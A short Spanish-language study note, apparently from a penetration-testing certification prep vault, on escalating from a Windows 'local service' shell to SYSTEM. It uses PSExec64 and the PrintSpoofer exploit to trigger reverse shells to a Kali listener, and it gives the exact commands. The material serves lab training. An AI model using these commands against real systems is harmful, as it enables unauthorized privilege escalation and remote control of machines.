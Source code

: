 - Comience un oyente en Kali. Simule la obtención de un shell de cuenta de servicio iniciando sesión en RDP como usuario administrador, iniciando un símbolo del sistema elevado (haga clic derecho -> ejecutar como administrador) y utilizando PSExec64.exe para activar el ejecutable reverse.exe que creó con los permisos de la cuenta "servicio local:  

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

- Comience otro oyente en Kali.

- Ahora, en el shell inverso "servicio local" que activó, ejecute el exploit PrintSpoofer para activar un segundo shell inverso que se ejecuta con privilegios SYSTEM (actualice la dirección IP con su IP Kali en consecuencia):

```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Token Impersonation - Rogue Potato]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]
